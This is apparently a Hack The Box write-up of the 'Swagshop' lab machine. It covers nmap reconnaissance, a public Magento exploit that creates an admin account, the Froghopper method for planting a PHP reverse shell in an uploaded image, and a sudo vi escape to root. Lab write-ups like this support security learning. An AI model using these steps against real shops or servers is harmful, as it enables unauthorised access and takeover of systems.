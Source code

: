 ```yaml
---
layout: post
title:  "HTB Writeup - Swagshop"
date:   2019-10-06 12:59:50 +0000
---
```


# HTB Swagshop - writeup

As always, let's start with ```nmap``` to scan for open ports and services:
```
root@kali:~/# nmap -sV -sT -sC -o nmapinitial swagshop.htb 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-27 15:27 EET
Nmap scan report for swagshop.htb (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The interesting stuff here is port 80, since I do not consider ssh as "low-hanging fruit".

http://swagshop.htb/ :
<img src="/assets/swag1.PNG" alt="drawing" width="600"/>
As we can see, there is a web application called Magento, which is a well suited CMS for building e-commerce.

At the bottom of the page, we can see that the version is from 2014. Searching for exploit, I found this[https://www.exploit-db.com/exploits/37977], which creates a new admin user. It worked, a slight edit had to be done though, since all paths are after /index.php. 
```
root@kali:~/Desktop/HTB/boxes/swagshop# python 37977.py 
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```
To continue the compromission of the machine, I exploited a RCE using The Froghopper Attack method[https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper]. 

Basically you have to:
1. Allow symlinks in template settings
2. Place a php reverse shell to a an image
3. Upload it as a category thumbnail
4. Check /media/catalog/category/shell.php.png
5. Create a Newsletter Templates with the shell and execute it

For the root flag, first thing I did was to get a tty shell with:
```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

I ran the usual recon linux script, and I found that www-data can run vi as root on any file in /var/www/html/ :
``` 
www-data@swagshop:/var/www/html$ sudo -l 
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/var/www/html$ 
```

So I opened a file in vi as root, then I executed /bin/bas from vi:
```
:!/bin/bash
```

and owned the root flag!

